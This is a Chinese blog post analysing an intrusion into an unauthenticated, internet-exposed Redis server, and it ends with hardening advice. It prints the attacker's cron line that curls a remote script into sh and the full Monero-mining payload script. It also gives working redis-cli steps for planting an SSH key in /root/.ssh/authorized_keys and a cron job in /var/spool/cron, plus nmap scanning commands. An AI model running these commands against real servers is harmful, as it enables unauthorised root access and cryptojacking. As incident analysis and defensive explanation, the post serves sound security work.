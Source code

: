 ```yaml
---
layout:     post
title:      "Redis安全问题分析"
date:       2017-03-03 16:48:00 +0800
category:   "redis"
tags:       ["security", "redis"]
excerpt:    "最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来仍心有余悸，背后直冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为："
---
```


## redis被侵入

最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来仍心有余悸，背后直冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为：

```bash
\n\n*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh\n\n
```

### 计划任务检查

看到这个，很自然会想到crond的计划任务，`*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh`的意思是"每5分钟去下载并执行这个test脚本"。所以第一时间去检查系统计划任务，但是并没有发现什么，貌似这个计划任务并没有添加成功(因为机器上运行redis服务的是一个nologin的用户)。

`crontab -l`可以查看当前用户的所有计划任务，但是难免会有遗漏，或者通过其他用户添加，我们最好是查看下`/var/spool/cron/`目录下所有文件。crond的具体操作以及命令格式，可以看我之前的文章 -- [crond环境变量问题](/2016/12/16/crond-env-problems/) 。

### 脚本检查

计划任务没有发现什么问题，所以只好去看看入侵者想要下载和执行的脚本，或许能发现什么。下载完脚本，打开之后，内容如下(注释是本人添加)：

```bash
#!/bin/bash
# 查看系统中是否运行minerd这个挖矿软件
Jin=`ps -ef|grep minerd|grep -v grep|wc -l`
# 找到minerd进程的pid
Pid=`ps -ef|grep minerd|grep -v grep|awk '{print $2}'`
# 统计指向指定比特币账户的minerd进程数量
Qianbao=`ps -ef|grep minerd|grep -v grep|grep "44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN"|wc -l`
# 杀掉竞争对手AnXqV挖矿软件
ps auxf|grep -v grep|grep AnXqV |awk '{print $2}'|xargs kill -9

# 如果系统中运行有minerd
if [ $Jin -eq  1 ];then
    # 如果minerd不是指向自己账户，杀掉minerd进程，并且将minerd下载在/opt目录下，运行下载的minerd并指向自己账户
    if [ $Qianbao -eq 0 ];then
        kill -9 $Pid
        cd /opt
        if [ ! -f minerd ];then
            curl -L http://sx.doiton.tk/minerd -o minerd \
            &&   chmod +x minerd
        fi
        /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN -p x &>>/dev/null
    fi
fi

# 如果系统中没运行minerd，直接将minerd下载在/opt目录下，运行下载的minerd并指向自己账户
if  [ $Jin -ne  1 ];then
    kill -9 $Pid
    cd /opt
    if [ ! -f minerd ];then
        curl -L http://sx.doiton.tk/minerd -o minerd \
        &&   chmod +x minerd
    fi
    /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN -p x &>>/dev/null
 fi
```

分析完脚本之后，通过`ps aux | grep -v grep | grep [name]`查看下系统中是否运行有`minerd`或者`AnXqV`。很庆幸，系统中没有运行这两种挖矿软件，估计上一步`计划任务`没添加成功。

## 还原过程

侥幸逃过了一劫，庆幸之余来分析下入侵者的入侵过程。

### 利用原理

> redis的安全理念是，“不要将Redis暴露在公网中, 因为让不受信任的客户接触到Redis是非常危险的”。redis作者之所以放弃解决未授权访问导致的不安全性是因为, 99.99% 使用 Redis 的场景都是在沙盒化的环境中, 为了0.01%的可能性增加安全规则的同时也增加了复杂性, 虽然这个问题的并不是不能解决的, 但是这在他的设计哲学中仍是不划算的。[[1]](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)

当然，使用者将redis端口绑定在默认的`0.0.0.0:6379`，以具有某权限的用户运行，并且没有开启鉴权，也没采取相关防火墙策略，将不需认证的redis服务器暴露在公网，才是这类事件的罪魁祸首。

因为redis自身提供`config`命令，该命令本来是用来动态调整redis配置的，但是既然能写文件(也能修改配置文件地址)，那么自然可以用来进行一些其他的操作。

### 扫描端口

公网上有很多用户运行redis，其实都监听默认端口6379，并且没有开启auth鉴权。我们可以很轻松的扫描到这样的用户，然后实施入侵(并不建议这么做，已经是犯罪)：

```bash
# 安装nmap扫描器
$ sudo yum install nmap (红帽系或者SUSE) 或者 sudo apt-get install nmap (debian系)

# 扫描网络中活动主机(网段可以自己修改)
$ nmap -sn 192.168.2.0/24

# 扫描特定主机的开放端口(地址、地址段自己修改)
$ nmap 192.168.2.0,100-200

# 找到主机上监听端口的服务
$ nmap -sV 192.168.2.22

# 查看主机上端口的详细信息
$ nmap -sC 192.168.2.22 -p 6379

# 特定漏洞脚本利用(这个不是重点)
$ nmap --script=[path] 192.168.2.22 -p 6379
```

扫描到可利用的端口后，我们就可以进行下一步操作了。我们可以进行比较常见的操作：添加计划任务执行特定操作，或者将ssh公钥添加到主机方便以后利用。

### 利用1：添加ssh公钥

在主机redis中添加一个`crackit`的键值对

```bash
# 生成rsa密钥对(公钥和私钥)
$ ssh-keygen -t rsa
# 将公钥写入文件，私钥保留
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt
# 将公钥写入redis
$ cat test.txt | redis-cli -h 192.168.2.22 -x set "crackit"
```

通过`config`命令，修改配置路径，将公钥写入主机`/root/.ssh/authorized_keys`。

```bash
$ redis-cli -h 192.168.2.22
    > flushall
    > config set dir "/root/.ssh"
    > config set dbfilename "authorized_keys"
    > save
```

公钥写入成功之后，我们便可以使用之前生成的私钥来访问对应的主机，后面的操作自己脑补。

### 利用2：添加计划任务

在主机redis中添加一个`crackit`的键值对

```bash
# 将计划任务命令写入文件
$ (echo -e "\n\n*/5 * * * * /usr/bin/curl -fsSL http://192.168.2.1/test.sh | sh\n\n") > test.txt
# 将计划任务内容写入redis
$ cat test.txt | redis-cli -h 192.168.2.22 -x set "crackit"
```

添加任务计划操作，其实和添加公钥差不多，只是将目录修改成`/var/spool/cron/`，系统中便自动添加了一个计划任务。

```bash
$ redis-cli -h 192.168.2.22
    > flushall
    > config set dir "/var/spool/cron/"
    > config set dbfilename "root"
    > save
```

添加计划任务成功以后，系统便会定时运行我们写好的脚本，具体能做什么取决于你的脚本内容。

## 影响和应对

影响：

- redis作为数据库，如果被入侵，导致数据泄露或者数据丢失，会给用户带来很大损失。
- 入侵者通过redis执行lua脚本，或者添加计划任务，或者添加ssh公钥，都可能使机器沦为肉鸡，被人使用。

应对措施：

1. 配置`/etc/redis.config`文件，修改bind选项，绑定特定IP地址(内网地址或者回环地址)可以限制部分IP访问。
2. 配置`/etc/redis.config`文件，修改port选项，修改默认监听6379端口，避免被人轻易扫描到。
3. 配置`/etc/redis.config`文件，修改requirepass选项，添加redis服务器鉴权，增强安全性。
4. 配置`/etc/redis.config`文件，修改rename-command选项，将危险命令重命名。
5. 创建单独的nologin系统用户，用来运行redis，避免被入侵后提权(执行代码或者命令)，千万不能以root运行redis服务。
6. 对主机添加ACL或者防火墙进行网络访问控制，云主机可以设置安全组。

最近除了redis被劫持，mongodb、mysql等数据被勒索的新闻也能经常听到，所以提高自身安全意识才是最根本的。
